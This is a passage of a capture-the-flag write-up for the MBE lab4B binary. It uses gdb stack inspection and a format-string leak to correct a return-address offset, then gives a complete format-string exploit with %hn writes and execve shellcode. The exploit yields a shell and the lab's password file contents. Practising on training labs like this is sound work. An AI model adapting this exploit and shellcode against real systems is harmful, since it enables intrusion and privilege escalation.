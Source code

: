 The exploit seems to be working inside `gdb`. However, like in the previous levels, we may need to adjust the return address.

## Solution

There is a quick trick to easily find the difference between the stack address inside and outside `gdb`. In `gdb`, our return address was `0xbffff670`. Now, if you set a breakpoint on *exit()* and check the stack, you will see that we can leak an address.

```nasm
gdb-peda$ break *main+163
Breakpoint 1 at 0x8048730
gdb-peda$ run
Starting program: /levels/lab04/lab4B
AAAA
aaaa

Breakpoint 1, 0x08048730 in main ()
gdb-peda$ x/16x $esp
0xbffff630: 0x00000000  0x00000064  0xb7fcdc20  0x00000000
0xbffff640: 0xbffff6f4  0xbffff668  0x61616161  0x0804000a
0xbffff650: 0xb7fff938  0x00000000  0x000000c2  0xb7eb8216
0xbffff660: 0xffffffff  0xbffff68e  0xb7e2fbf8  0xb7e56273
```

See the `0xbffff668` value at `0xbffff644`? It is not too far from `0xbffff670` (return address). Let's check this address outside `gdb` with the format string exploit.

```shell
lab4B@warzone:/levels/lab04$ ./lab4B
AAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
aaaa00000064.b7fcdc20.00000000.bffff6b4.bffff628.61616161.78383025.3830252e
```

The `0xbffff668` is now `0xbffff628`. It means we have 40 bytes of difference. So, to fix our exploit we just need to subtract **40** to **13937** which is equal to **13897**. Let's see if it's working.

```shell
lab4B@warzone:/levels/lab04$ (python -c 'print("\xba\x99\x04\x08" + "\xb8\x99\x04\x08" + "%49143x" + "%6$hn" + "%13897x" + "%7$hn" + 32 * "\x90" + "\x31\xc0\xbb\x24\x3a\xf8\xb7\x89\xc9\x89\xca\xb0\x0b\xcd\x80")'; cat) | ./lab4B

...[snip]...

whoami
lab4A
cat /home/lab4A/.pass
fg3ts_d0e5n7_m4k3_y0u_1nv1nc1bl3
```

Easy right? You can go to the last [challenge](/writeups/mbe/lab4a/) of this level.
